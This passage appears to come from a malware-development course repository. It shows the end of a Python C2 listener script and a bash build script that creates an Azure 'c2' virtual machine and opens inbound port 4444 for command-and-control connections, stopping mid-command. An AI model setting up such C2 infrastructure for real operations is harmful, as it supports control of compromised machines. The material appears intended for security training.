 ```python
[+] Eg.: python3 {sys.argv[0]} 127.0.0.1 8080
""")
	else:
		try:
			lhost = sys.argv[1]
			lport = int(sys.argv[2])
			listener(lhost, lport, q)
		except Exception as e:
			print(f"\n[-] Unable to run the handler. Reason: {e}\n")

if __name__ == "__main__":
	main()
```

- Script PoC-maldev/build.sh
```bash
#!/bin/bash

echo "[+] Creating CrashCourseMaldev resource group..."
az group create --name CrashCourseMaldev --location eastus > /dev/null 2>&1
echo "[+] CrashCourseMaldev resource group successfully created"

echo "[+] Creating C2 instance..."
user=$(whoami | sed 's/\n//g')
c2ip=$(az vm create \
    --resource-group CrashCourseMaldev \
    --name c2 \
    --image Canonical:0001-com-ubuntu-server-focal:20_04-lts-gen2:latest \
    --size Standard_B2s \
    --zone 1 \
    --admin-username $user \
    --generate-ssh-keys \
    --nsg c2-nsg \
    --public-ip-address c2-ip \
    --public-ip-address-allocation static \
    --public-ip-sku Standard \
    --storage-sku Standard_LRS \
    --only-show-errors \
    | grep publicIpAddres | awk -F': ' '{print $2}' | sed 's/["]//g' | sed 's/,//g')
echo "[+] C2 instance successfully created"
echo "[+] C2 IP address: $c2ip"

echo "[+] Adding network security group rules..."
bmip=$(curl -s whatismyip.akamai.com | sed 's/\n//g')
az network nsg rule create \
    --resource-group CrashCourseMaldev \
    --nsg-name c2-nsg \
    --name AllowC2Connection1 \
    --access Allow \
    --protocol Tcp \
    --direction Inbound \
    --priority 320 \
    --source-address-prefix $bmip \
    --source-port-range "*" \
    --destination-port-ranges 4444 > /dev/null 2>&1
echo "[+] Inbound rule for port 4444 added to c2-nsg"

az network nsg rule create \
    --resource-group CrashCourseMaldev \
    --nsg-name c2-nsg \
    --name AllowC2Connection2 \
    --access Allow \
    --protocol Tcp \
    --direction Inbound \
```